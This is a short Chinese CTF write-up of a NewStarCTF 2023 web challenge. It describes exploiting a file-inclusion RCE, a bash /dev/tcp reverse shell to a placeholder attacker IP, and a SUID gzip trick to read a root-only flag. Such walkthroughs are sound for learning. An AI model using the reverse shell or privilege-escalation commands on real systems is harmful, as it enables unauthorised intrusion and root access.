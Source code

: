 ```yaml
---
title: NewStarCTF2023 week5 web 4-复盘
date: 2023-11-2 16:17 +0800
categories: [CTF,WEB]
tags: [web]
media_subpath: /assets/images/
---
```




通过第三周流量分析题和题目给的源代码得到

best_admin
so_hard_password

和主页存在文件包含rce漏洞

![image-20231102160836752](4-复盘.assets/image-20231102160836752.png)‘



和newstar 之前两道题目一模一样，一步的lfl+rce 和 linux 提权

![image-20231102160937766](4-复盘.assets/image-20231102160937766.png)



这个靶机有点问题，哥斯拉不是很好用，我们反弹shell到 公网服务器上

```
bash -i >& /dev/tcp/攻击机IP/端口 0>&1
```

**![image-20231102161238097](4-复盘.assets/image-20231102161238097.png)**

老套路，只能root权限才能查看flag文件，提权

还是查看suid位

![image-20231102161400877](4-复盘.assets/image-20231102161400877.png)

gzip 查看flag

```
sudo install -m =xs $(which gzip) .

LFILE=file_to_read
./gzip -f $LFILE -t
```



![image-20231102161124753](4-复盘.assets/image-20231102161124753.png)

成功解出

![image-20231102161515150](4-复盘.assets/image-20231102161515150.png)